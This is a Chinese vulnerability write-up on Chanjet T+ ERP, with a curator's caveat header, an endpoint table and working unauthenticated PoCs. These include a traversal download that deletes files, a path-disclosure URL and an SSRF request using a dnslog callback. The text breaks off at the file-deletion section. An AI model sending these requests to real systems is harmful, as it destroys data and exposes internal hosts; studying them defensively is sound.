# 畅捷通T+ 六类漏洞研究集合

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：畅捷通T+；六类漏洞研究集合
- 版本、配置及部署条件：接口表12.3/13/15/16不是每漏洞影响版本；v17<=含义歧义
- 认证与权限前提：前台声明与上传后台会话须分
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 拆下载后删除、备份路径泄露、TestConnnect回连、DeleteSingleImage删除、CheckPassword SQLi、UserFileUpload六实体并关联215
- DownLoadWmsUploadedFileLog读取后删除明确破坏性，不能当只读检测
- DNS回连不证明任意协议完整SSRF；Base64是编码非加密
- 多请求缺头体空行；上传multipart缺name/filename且boundary头体不匹配，全文已损
- 接口列表无认证证明，不可推广大部分无需鉴权；无各漏洞固定版本

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/XAqf4ZStCIIzlZ7Cqu1qNQ)

**0x00 前言**  

**FOFA:** **app="畅捷通 - TPlus"** **使用量: 10W**



**畅捷通 T + 这套系统有十分完备的 Ajax 接口 然而大部分接口都是可以无需鉴权即可使用 也导致了更多的 Bug 下方为所有 Ajax 接口作用及其更新版本号.**

<table width="1039"><tbody><tr><td width="90"><p>1</p></td><td width="166"><p>ReportApi</p></td><td width="718"><p>Ufida.T.BAP.Web.Report.ReportApi,Ufida.T.BAP.Web</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>2</p></td><td width="166"><p>VoucherApi</p></td><td width="718"><p>Ufida.T.BAP.Web.Voucher.VoucherApi,Ufida.T.BAP.Web</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>3</p></td><td width="166"><p>OperationApi</p></td><td width="718"><p>Ufida.T.EAP.Privilege.UIP.OperationApiController,Ufida.T.EAP.Privilege.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>4</p></td><td width="166"><p>CloudApi</p></td><td width="718"><p>Ufida.T.MB.Controller.AuthConfigRestCtrl,Ufida.T.MB.Controller</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>5</p></td><td width="166"><p>RefInfo</p></td><td width="718"><p>Ufida.EAP.ReferInfos.Migrate.Controller.ReferInfoController,Ufida.EAP.ReferInfos.Migrate.Controller</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>6</p></td><td width="166"><p>UiConfig</p></td><td width="718"><p>Ufida.EAP.ReferInfos.Migrate.Controller.UiConfigController,Ufida.EAP.ReferInfos.Migrate.Controller</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>7</p></td><td width="166"><p>UserGroup</p></td><td width="718"><p>Ufida.T.EAP.Privilege.UIP.controller.UserGroupController,Ufida.T.EAP.Privilege.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>8</p></td><td width="166"><p>User</p></td><td width="718"><p>Ufida.T.EAP.Privilege.UIP.controller.UserController,Ufida.T.EAP.Privilege.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>9</p></td><td width="166"><p>previewaccount</p></td><td width="718"><p>Ufida.T.SM.UIP.UA.PreviewAccountController,Ufida.T.SM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>10</p></td><td width="166"><p>report</p></td><td width="718"><p>Ufida.T.BAP.Web.Report.ReportApi,Ufida.T.BAP.Web.Report</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>11</p></td><td width="166"><p>search</p></td><td width="718"><p>Ufida.T.EAP.QueryExt.UIP.SearchApiController,Ufida.T.EAP.QueryExt.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>12</p></td><td width="166"><p>VisitPlanApi</p></td><td width="718"><p>Ufida.T.CM.UIP.VisitPlanApiController,Ufida.T.CM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>13</p></td><td width="166"><p>CMApi</p></td><td width="718"><p>Ufida.T.CM.UIP.CMApiController,Ufida.T.CM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>14</p></td><td width="166"><p>VisitPhoto</p></td><td width="718"><p>Ufida.T.CM.UIP.VisitPhotoController,Ufida.T.CM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>15</p></td><td width="166"><p>mbreportpublish</p></td><td width="718"><p>Ufida.T.EAP.Privilege.UIP.controller.MBReportController,Ufida.T.EAP.Privilege.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>16</p></td><td width="166"><p>RestToken</p></td><td width="718"><p>Ufida.T.SM.Login.UIP.controller.RestTokenController,Ufida.T.SM.Login.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>17</p></td><td width="166"><p>CustomLogo</p></td><td width="718"><p>Ufida.T.SM.UIP.CustomLogo.CustomLogoController,Ufida.T.SM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>18</p></td><td width="166"><p>TraceGraphicalApi</p></td><td width="718"><p>Chanjet.T.TXH.Base.TraceGraphicalController,Chanjet.T.TXH.Base</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>19</p></td><td width="166"><p>UserInfo</p></td><td width="718"><p>Ufida.T.SM.Login.UIP.controller.UserInfoController,Ufida.T.SM.Login.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>20</p></td><td width="166"><p>Password</p></td><td width="718"><p>Ufida.T.SM.Login.UIP.controller.PasswordController,Ufida.T.SM.Login.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>21</p></td><td width="166"><p>PhoneEmail</p></td><td width="718"><p>Ufida.T.SM.Login.UIP.controller.PhoneEmailController,Ufida.T.SM.Login.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>22</p></td><td width="166"><p>multicompclass</p></td><td width="718"><p>Ufida.T.SM.UIP.MultiCompany.MultiCompanyClassController,Ufida.T.SM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>23</p></td><td width="166"><p>multicompclassmap</p></td><td width="718"><p>Ufida.T.SM.UIP.MultiCompany.MultiCompanyClassMapController,Ufida.T.SM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>24</p></td><td width="166"><p>multicompclassaccount</p></td><td width="718"><p>Ufida.T.SM.UIP.MultiCompany.AccountController,Ufida.T.SM.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>25</p></td><td width="166"><p>PrintApi</p></td><td width="718"><p>Ufida.T.EAP.Print.Controller.CloudPrint.CloudPrintController,Ufida.T.EAP.Print.Controller</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>26</p></td><td width="166"><p>VoucherSearch</p></td><td width="718"><p>Ufida.T.EAP.Portal.UIP.VoucherSearchController,Ufida.T.EAP.Portal.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>27</p></td><td width="166"><p>GLAI</p></td><td width="718"><p>Ufida.T.GL.UIP.AI.DataCheckController,Ufida.T.GL.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>28</p></td><td width="166"><p>GLDS</p></td><td width="718"><p>Ufida.T.GL.UIP.GLDoc.GLCommonWebApi,Ufida.T.GL.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>29</p></td><td width="166"><p>tenant</p></td><td width="718"><p>Ufida.T.SM.TenantInfo.Controller.TenantInfoController,Ufida.T.SM.TenantInfo.Controller</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>30</p></td><td width="166"><p>verifycode</p></td><td width="718"><p>Ufida.T.EAP.Privilege.UIP.controller.VerifyCodeController,Ufida.T.EAP.Privilege.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>31</p></td><td width="166"><p>UpgradeTime</p></td><td width="718"><p>Ufida.T.EAP.Portal.UIP.UpgradeTimeController,Ufida.T.EAP.Portal.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>32</p></td><td width="166"><p>RapScript</p></td><td width="718"><p>Ufida.T.DT.UIP.Import.RapScriptController,Ufida.T.DT.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>33</p></td><td width="166"><p>Attachment</p></td><td width="718"><p>Ufida.T.EAP.VoucherExt.Controller.AttachmentController,Ufida.T.EAP.VoucherExt.Controller</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>34</p></td><td width="166"><p>InventoryImage</p></td><td width="718"><p>Ufida.T.EAP.FileHandle.Controller.InventoryImageController,Ufida.T.EAP.FileHandle.Controller</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>35</p></td><td width="166"><p>SRTemplateApi</p></td><td width="718"><p>Ufida.T.SR.SmartReport.UIP.SRTemplateApi,Ufida.T.SR.SmartReport.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>36</p></td><td width="166"><p>OperationLog</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.OperationLogController,Ufida.T.SM.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>37</p></td><td width="166"><p>AuthCode</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.AuthCodeController,Ufida.T.SM.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>38</p></td><td width="166"><p>FollowUpInfo</p></td><td width="718"><p>Ufida.T.CM.UIP.FollowUpInfoController,Ufida.T.CM.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>39</p></td><td width="166"><p>VoucherControlPlan</p></td><td width="718"><p>Ufida.T.CM.UIP.VoucherControlPlanController,Ufida.T.CM.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>40</p></td><td width="166"><p>OptionSettingApi</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.OptionSettingApiController,Ufida.T.SM.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>41</p></td><td width="166"><p>SmApi</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.SmApiController,Ufida.T.SM.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>42</p></td><td width="166"><p>OrderSysncSetting</p></td><td width="718"><p>Ufida.T.RE.UIP.OrderSysncSettingController,Ufida.T.RE.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>43</p></td><td width="166"><p>dstnewapi</p></td><td width="718"><p>Chanjet.T.ES.UIP.NewDST.DSTNewAPI,Chanjet.T.ES.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>44</p></td><td width="166"><p>rchkApi</p></td><td width="718"><p>Ufida.T.RCHK.UIP.RCHKReportController,Ufida.T.RCHK.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>46</p></td><td width="166"><p>patch</p></td><td width="718"><p>Ufida.T.SM.PublishService.Controller.PublishController,Ufida.T.SM.PublishService.Controller</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>47</p></td><td width="166"><p>SCMMiniProgram</p></td><td width="718"><p>Chanjet.T.MiniProgram.UIP.MiniProgramController,Chanjet.T.MiniProgram.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>48</p></td><td width="166"><p>ElebalanceApi</p></td><td width="718"><p>chanjet.T.Elebalance.UIP.ElebalanceApiController,chanjet.T.Elebalance.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>49</p></td><td width="166"><p>DataUploadApi</p></td><td width="718"><p>Ufida.T.SM.DataUpload.UIP.DataUploadApi,Ufida.T.SM.DataUpload.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>50</p></td><td width="166"><p>SRToolsAPi</p></td><td width="718"><p>Ufida.T.SR.SmartReport.UIP.SRToolsAPi,Ufida.T.SR.SmartReport.UIP</p></td><td width="65"><p>12.3</p></td></tr><tr><td width="90"><p>51</p></td><td width="166"><p>TaxCheckApi</p></td><td width="718"><p>Ufida.T.GL.UIP.TaxCheck.TaxCheckApi,Ufida.T.GL.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>52</p></td><td width="166"><p>WMSApi</p></td><td width="718"><p>Chanjet.T.WMS.UIP.TCWMSController,Chanjet.T.WMS.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>53</p></td><td width="166"><p>UploadJDWms</p></td><td width="718"><p>Ufida.T.AA.UIP.UploadJDWmsController,Ufida.T.AA.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>54</p></td><td width="166"><p>RdsAccount</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.RdsAccountController,Ufida.T.SM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>55</p></td><td width="166"><p>AllTaxDeclareApi</p></td><td width="718"><p>Ufida.T.SR.SmartReport.UIP.AllTaxDeclareApi,Ufida.T.SR.SmartReport.UIP</p></td><td width="65"><p>13</p></td></tr><tr><td width="90"><p>56</p></td><td width="166"><p>DevVouMsgSetApi</p></td><td width="718"><p>Ufida.T.SM.UIP.MessageCenter.DevVoucherMessageSetController,Ufida.T.SM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>57</p></td><td width="166"><p>SelfOperation</p></td><td width="718"><p>Ufida.T.EAP.Portal.UIP.SelfOperationController,Ufida.T.EAP.Portal.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>58</p></td><td width="166"><p>BoardApi</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.BoardController,Ufida.T.SM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>59</p></td><td width="166"><p>isvauth</p></td><td width="718"><p>Ufida.T.SM.UIP.ISV.ISVAuthController,Ufida.T.SM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>60</p></td><td width="166"><p>GoalAssignApi</p></td><td width="718"><p>Ufida.T.CPM.UIP.GoalAssignEditController,Ufida.T.CPM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>61</p></td><td width="166"><p>CPMReportApi</p></td><td width="718"><p>Ufida.T.CPM.UIP.CPMReportApi,Ufida.T.CPM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>62</p></td><td width="166"><p>CarryForwardApi</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.CarryForwardController,Ufida.T.SM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>63</p></td><td width="166"><p>EaApi</p></td><td width="718"><p>Ufida.T.EAP.EA.UIP.EAController,Ufida.T.EAP.EA.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>64</p></td><td width="166"><p>Backup2OssSetApi</p></td><td width="718"><p>Ufida.T.SM.UIP.Backup2OssSetController,Ufida.T.SM.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>65</p></td><td width="166"><p>PlugApi</p></td><td width="718"><p>Ufida.T.EAP.AppStore.UIP.PlugInfoController,Ufida.T.EAP.AppStore.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>66</p></td><td width="166"><p>PortalApi</p></td><td width="718"><p>Ufida.T.EAP.Portal.UIP.PortalController,Ufida.T.EAP.Portal.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>67</p></td><td width="166"><p>TopAppApi</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.TopAppController,Ufida.T.SM.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>68</p></td><td width="166"><p>SAVoucherShare</p></td><td width="718"><p>Ufida.T.SA.UIP.SAVoucherShareController,Ufida.T.SA.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>69</p></td><td width="166"><p>AccountingCalcApi</p></td><td width="718"><p>Ufida.T.GL.UIP.Tool.AccountingCalcApi,Ufida.T.GL.UIP</p></td><td width="65"><p>15</p></td></tr><tr><td width="90"><p>70</p></td><td width="166"><p>HeighPictureApi</p></td><td width="718"><p>Ufida.T.GL.UIP.AI.HeighPictureApiController,Ufida.T.GL.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>71</p></td><td width="166"><p>SyncTplusDataToCC</p></td><td width="718"><p>Ufida.T.AA.UIP.SyncTplusDataController,Ufida.T.AA.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>72</p></td><td width="166"><p>BCNewRetailApi</p></td><td width="718"><p>Ufida.T.RE.UIP.BCNewRetailController,Ufida.T.RE.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>73</p></td><td width="166"><p>login</p></td><td width="718"><p>Ufida.T.SM.Login.UIP.controller.LoginController,Ufida.T.SM.Login.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>74</p></td><td width="166"><p>FactoryCalendarApi</p></td><td width="718"><p>Ufida.T.AA.UIP.FactoryCalendarApiController,Ufida.T.AA.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>75</p></td><td width="166"><p>BatchProcessDispatchApi</p></td><td width="718"><p>Ufida.T.SW.UIP.BatchProcessDispatchApiController,Ufida.T.SW.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>76</p></td><td width="166"><p>ProcessDispatchWorkbenchApi</p></td><td width="718"><p>Ufida.T.SW.UIP.ProcessDispatchWorkbenchApiController,Ufida.T.SW.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>77</p></td><td width="166"><p>XCBXApi</p></td><td width="718"><p>Ufida.T.CS.UIP.XCBXController,Ufida.T.CS.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>78</p></td><td width="166"><p>taskApi</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.TaskApiController,Ufida.T.SM.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>79</p></td><td width="166"><p>TaskService</p></td><td width="718"><p>Ufida.T.EAP.Privilege.UIP.controller.TasServiceController,Ufida.T.EAP.Privilege.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>80</p></td><td width="166"><p>MPApi</p></td><td width="718"><p>Ufida.T.MP.UIP.MPApiController,Ufida.T.MP.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>81</p></td><td width="166"><p>SMRetailApi</p></td><td width="718"><p>Ufida.T.SM.UIP.WebApi.SMRetailController,Ufida.T.SM.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>82</p></td><td width="166"><p>LMApi</p></td><td width="718"><p>Ufida.T.LM.UIP.LMApiController,Ufida.T.LM.UIP</p></td><td width="65"><p>16</p></td></tr><tr><td width="90"><p>83</p></td><td width="166"><p>TMSApi</p></td><td width="718"><p>Ufida.T.LM.UIP.TMSController,Ufida.T.LM.UIP</p></td><td width="65"><p>16</p></td></tr></tbody></table>

**0x01 前台任意文件下载 + 删除漏洞**
------------------------

**/tplus/BaseInfo/DownLoadWmsUploadedFileLog.aspx** **反编译相关 Dll 发现其存在 fileName 参数可进行传入.**



**通读代码 发现该代码执行逻辑为 先下载位于 \ Templates\WMS\UploadLog \ 下的 fileName 文件 然后将其删除 可以通过../ 跨目录.**

****



**Payload:**

```
http://127.0.0.1/tplus/BaseInfo/DownLoadWmsUploadedFileLog.aspx?fileName=../../aaaa.txt

```

**0x02 前台信息泄露漏洞**
-----------------

**位于 Ufida.T.SM.UIP.Tool.AccountClearControler 的类存在未授权访问 路径泄露漏洞**

****

**Payload:** 

```
/tplus/ajaxpro/Ufida.T.SM.UIP.Tool.AccountClearControler,Ufida.T.SM.UIP.ashx?method=GetDefaultBackPath

```

****

**0x03 前台 SSRF 漏洞**
-------------------

**在** **Ufida.T.SM.UIP.UA.AddressSettingController 的类中存在 TestConnnect 函数 调用了下下图 CheckConnnect 方法 导致了前台 SSRF 漏洞.**

****  

****  

**Payload:**

```http
POST /tplus/ajaxpro/Ufida.T.SM.UIP.UA.AddressSettingController,Ufida.T.SM.UIP.ashx?method=TestConnnect HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 56
Content-Type: application/json
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/tplus/ajaxpro/Ufida.T.SM.UIP.UA.AddressSettingController,Ufida.T.SM.UIP.ashx?method=TestConnnect
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
{
  "address":"xxxxxx.dnslog.cn"
}

```

****

**0x04 前台任意文件删除漏洞**
-------------------

**在** **Ufida.T.EAP.Voucher.WebController.AjaxImageService** **的类中存在 DeleteSingImage 函数 调用了下图 DeleTempImage 方法 导致了任意文件删除漏洞.**

